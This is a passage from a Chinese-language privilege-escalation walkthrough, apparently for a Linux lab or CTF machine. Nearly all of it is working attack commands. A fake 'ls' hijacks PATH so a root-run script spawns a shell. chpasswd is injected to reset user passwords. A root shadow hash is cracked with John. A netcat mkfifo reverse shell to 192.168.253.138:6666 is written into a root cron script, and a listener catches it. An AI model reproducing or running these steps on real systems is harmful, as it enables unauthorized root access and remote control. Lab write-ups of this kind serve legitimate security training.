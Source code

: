 脚本文件可以使用root权限执行！！

echo "/bin/bash" > ls
chmod 777 ls
export PATH=/tmp:$PATH 
cd /home/user5
./script


## 4）方法（四）爆破shadow

echo 'echo "user1:12345" | chpasswd' > ls 
su user1 
sudo –l 
sudo su

chpasswd：批量修改用户名密码，详情参考文章
https://blog.csdn.net/qq_21816375/article/details/76377182

John爆破shadow：
root:$6$mqjgcFoM$X/qNpZR6gXPAxdgDjFpaD1yPIqUF5l5ZDANRTKyvcHQwSqSxX5lA7n22kjEkQhSP6Uq7cPaYfzPSmgATM9cwD1:18050:0:99999:7:::

john hash
12345            (root)



## 5）方法（五）user4
利用crontab获取root shell！

*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
（在crontab中，autoscript.sh的文件每5分钟以root权限运行一次）


echo 'echo "user4:12345" | chpasswd' > ls 
chmod 777 ls
export PATH=/tmp:$PATH
cd /home/user5
./script 
su user4 
cd /home/user4/Desktop
ls -la

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.253.138 6666 >/tmp/f
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.253.138 6666 >/tmp/f' > autoscript.sh

cat autoscript.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.253.138 6666 >/tmp/f

nc -vlp 6666

执行该文件：
./autoscript.sh
$ id
uid=1003(user4) gid=1003(user4) groups=1003(user4),0(root)
